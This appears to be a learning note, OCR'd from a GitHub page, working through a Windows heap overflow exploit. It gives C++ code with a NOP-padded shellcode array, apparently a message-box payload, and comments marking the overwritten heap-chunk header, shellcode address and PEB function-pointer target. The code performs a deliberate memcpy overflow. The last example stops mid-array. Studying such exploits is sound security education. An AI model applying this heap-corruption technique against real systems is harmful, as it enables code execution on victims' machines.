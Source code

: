#### mind

- Just short of ShellCode content

#### Code example 2 (incomplete)

```CPP
#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// 200 字节堆区结束，以下是溢出数据
"\x16\x01\x1A\x00\x00\x10\x00\x00" // 下一个堆块的块首，保留
"\x88\x06\x36\x00" // ShellCode起始地址
"\x20\xF0\xFD\x7F"; // PEB同步函数指针位置

int main()
{
    HLOCAL h1 = 0, h2 = 0;
    HANDLE hp;
    hp = HeapCreate(0,0x1000, 0x10000);
    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
    __asm int 3 //used to break process
    memcpy(h1, shellcode, 0x200); //overflow,0x200=512
    h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
    return 0;
}
```

#### Summary

- This time, some important parameters of the shellcode are written, but the main content is not yet written

#### Code example 3 (problematic)

```CPP
#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// Do Something...
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
// 200 字节堆区结束，以下是溢出数据
"\x16\x01\x1A\x00\x00\x10\x00\x00" // 下一个堆块的块首，保留
```